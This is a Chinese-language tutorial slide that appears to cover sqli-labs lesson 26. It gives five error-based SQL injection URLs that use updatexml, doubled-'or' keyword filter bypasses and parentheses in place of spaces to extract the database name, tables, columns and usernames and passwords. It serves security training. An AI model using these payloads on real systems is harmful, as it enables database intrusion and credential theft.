

# Less-26_02
当我们不考虑空格，使用报错注入的时候：
1. http://121.199.30.46/Less-26/?id=1‘  || updatexml(1, concat(0x7e, ( database()  ) ),1)  || ’1‘=‘1 使用这种方式可以得到我们的当前数据库
2. http://121.199.30.46/Less-26/?id=1‘  || updatexml(1, concat(0x7e, (select  (group_concat(table_name)) from  (infoorrmation_schema.tables) where (table_schema = 0x7365637572697479)  ) ),1)  || ’1‘=‘1  这样我们可以取得表信息。
3.  http://121.199.30.46/Less-26/?id=1‘  || updatexml(1, concat(0x7e, (select (group_concat(column_name)) from (infoorrmation_schema.columns) where (table_name = 0x7573657273)  ) ),1) || ’1‘=‘1   通过这个我们取得字段的值
4. http://121.199.30.46/Less-26/?id=1‘  || updatexml(1, concat(0x7e, ( select (group_concat(concat_ws(0x7e,username,passwoorrd))) from (security.users)  ) ),1) || ’1‘=‘1 取出字段的值，但是取出的值很少，不完整。
5. http://121.199.30.46/Less-26/?id=1‘  || updatexml(1, concat(0x7e, ( select (group_concat(concat_ws(0x7e,username,passwoorrd))) from (security.users)  where (id=2) ) )   ,1) || ’1‘=‘1  通过改变id的值可以遍历所有的数据。
以上的方法中，因为不能使用空格，所以采用报错注入的形式。我们如果使用字符进行替换呢？将空格替换为编码字符如何解决？